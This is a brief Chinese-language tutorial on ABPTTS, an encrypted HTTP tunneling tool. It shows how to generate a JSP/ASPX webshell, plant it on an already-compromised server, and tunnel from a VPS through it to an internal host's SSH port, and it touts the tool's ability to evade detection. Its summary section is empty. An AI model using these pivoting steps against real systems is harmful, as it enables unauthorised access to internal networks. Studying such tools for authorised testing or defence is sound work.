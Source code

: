 

   ## 1.Abptts

---
   ### 1.1简介


abptts是一款基于ssl加密的http隧道工具。全程通信数据加密有效对抗检测  

只能生成jsp和aspx后缀的脚本文件，不支持php文件，只有配置了解析jsp和aspx的服务器才适合



 ### 1.2下载

[abptts工具项目下载地址](https://github.com/nccgroup/ABPTTS)

Python版本为python2



 ### 1.3使用

**首先下载并安装依赖项**

```
- pip install pycrypto
- pip install httplib2
```


**在本地运行，生成webshell**

```
python abpttsfactory.py -o webshell
```



这里可以通过服务器上传文件或者直接拿到shell后复制Webshell文件到目标网站根目录

这里假设已经获得了目标shell，上传abptts.aspx到www根目录下

在vps上输入如下命令，连接内网192.168.137.108的ssh服务

```
python abpttsclient.py -c webshell\config.txt -u "http://192.168.233.1(服务器ip)/abptts.aspx" -f 127.0.0.1:13128/192.168.137.108:22(内网主机)
```



在攻击机上使用ssh连接主机的13128端口就连接到目标服务器的22端口啦

```
ssh  root@127.0.0.1 -p 13128
```



### 1.4总结
